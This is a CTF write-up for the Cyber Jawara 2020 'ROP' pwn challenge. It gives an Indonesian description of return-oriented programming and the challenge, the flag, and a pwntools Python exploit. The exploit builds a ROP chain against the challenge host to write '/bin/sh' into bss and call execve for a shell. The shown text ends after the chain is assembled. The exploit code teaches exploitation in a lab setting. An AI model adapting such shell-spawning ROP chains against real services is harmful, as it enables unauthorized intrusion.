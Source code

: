 
FLAG: CJ2020{penting_loh_orang_security_tau_syscall}

# ROP | Pwn

### Description

Return Oriented Programming (ROP) adalah salah satu trik yang biasa digunakan untuk mengeksekusi kode ketika instruction pointer sudah dapat dikontrol namun memasukkan/mengeksekusi shellcode tidak memungkinkan. Ide dasar ROP adalah menggunakan potongan-potongan instruksi mesin pada binary ataupun library yang mengandung ret (return) atau call (termasuk syscall) yang biasa disebut dengan ROP gadgets. Gadgets tersebut disusun sedemikian rupa sehingga instruksi bisa lompat-lompat dan pada akhirnya mengeksekusi perintah yang kita inginkan.

Berikut adalah layanan yang memilik celah buffer overflow tanpa proteksi canary (stack protector) sehingga Anda dapat meng-overwrite instruction pointer mulai dari bytes ke-17 input. Binary ini di-compile secara statically-linked, tetapi Anda tidak punya akses ke binary-nya. Yang Anda dapatkan hanya informasi mengenai binary ELF tersebut dan juga kumpulan alamat gadgets yang bisa Anda gunakan.

nc pwn.cyber.jawara.systems 13372

### Solution

another service only challenges, in this challenge we were given 2 files one is binary information 
and a file that contains a lot of gadget address. since we can control the instruction pointer and 
we already know that the binary has buffer overflow vulnerability, we can create an ROP chain to 
call execve() and spawn a shell. we can use gadget `mov qword ptr [rdx], rax ; ret` to store string 
`/bin/sh` inside bss segment. this is my exploit for this challenge.

{% highlight python %}
from pwn import *

r = remote("pwn.cyber.jawara.systems",13372)

context(arch="amd64",os="linux")

pop_rdx = 0x00000000004497c5
pop_rdi = 0x0000000000400696
pop_rax = 0x00000000004155a4
pop_rsi = 0x0000000000410183
pop_r10 = 0x000000000044bd35
add_rax_1 = 0x0000000000474820

xor_rax_rax = 0x0000000000444b00
syscall = 0x000000000047b52f
mov_rdx_rax = 0x00000000004182d7

buf = 0x0000000006bb2e0 + 100
ret = 0x0000000000400416

main = 0x000000000400b5d
p = "A" * 16

p += p64(pop_rax)
p += "/bin/sh\x00"
p += p64(pop_rdx)
p += p64(buf)
p += p64(mov_rdx_rax)
p += p64(pop_rax)
p += p64(59)
p += p64(pop_rdi)
p += p64(buf)
p += p64(pop_rsi)
p += p64(0)
p += p64(pop_rdx)
p += p64(0)
p += p64(syscall)
